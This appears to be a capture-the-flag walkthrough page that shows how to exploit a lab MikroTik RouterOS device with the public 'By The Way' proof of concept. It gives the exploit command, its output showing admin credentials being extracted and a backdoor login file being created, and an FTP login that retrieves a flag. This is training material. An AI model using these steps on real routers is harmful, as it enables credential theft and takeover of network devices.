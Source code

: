 +++
title = "Exploitation"
date = 2021-10-18T20:39:54-06:00
weight = 10
+++


After searching online, we find that the version of Mikrotik/RouterOS should be vulnerable to an exploit called "By The Way"
### Exploitation

The following versions of Router OS are vulnerable to "ByTheWay" exploit:
```
Longterm: 6.30.1 - 6.40.7
Stable: 6.29 - 6.42
Beta: 6.29rc1 - 6.43rc3
```

The Tenable security team has created a POC for the "By The Way" exploit, found here: <a href="https://github.com/tenable/routeros/tree/master/poc/bytheway">https://github.com/tenable/routeros/tree/master/poc/bytheway</a>

The repo is already cloned, and the exploit compiled.

1. Navigate to `~/routeros/poc/bytheway/build`
```
cd ~/routeros/poc/bytheway/build
```

2. Run the exploit against the Mikrotik
```
./btw -i 172.21.0.4
```

You should see the following:
```
$ ./btw -i 172.21.0.4

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴

[+] Attempting to connect to 172.21.0.4:8291
[+] Extracting user.dat...
[+] Searching for administrator credentials
[+] Using credentials - [[[CREDENTIALS HERE]]]
[+] Creating /pckg/option on 172.21.0.4:8291
[+] Creating /flash/nova/etc/devel-login on 172.21.0.4:8291
[+] There's a light on
```

3. We see that the exploit has extracted credentials for the admin user.

4. Login to FTP using the creds you got in step 2.

```
$ ftp 172.21.0.4
```
Use the username and password to login.
```
Name (172.21.0.4:user): admin
331 Password required for admin
Password:
230 User admin logged in
Remote system type is UNIX.
```

Set the mode to Passive
```
ftp> passive
Passive mode on.
```

List the directory
```
ftp> ls
227 Entering Passive Mode (172,21,0,4,191,152).
150 Opening data connection
-rw-rw----   1 root     root           59 Oct 18 12:47 flag.txt
drwxrwx---   1 root     root         1024 Dec 31 18:00 flash
226 Transfer complete
```

Get the flag!
```
ftp> get flag.txt
local: flag.txt remote: flag.txt
227 Entering Passive Mode (172,21,0,4,208,214).
150 Opening ASCII mode data connection for /flag.txt (59 bytes)
226 ASCII transfer complete
59 bytes received in 0.00 secs (61.0999 kB/s)
```

Exit FTP
```
ftp> exit
221 Closing
```

5. Print the flag. Use this to solve the Hacker Challenge.
```
$ cat flag.txt
```
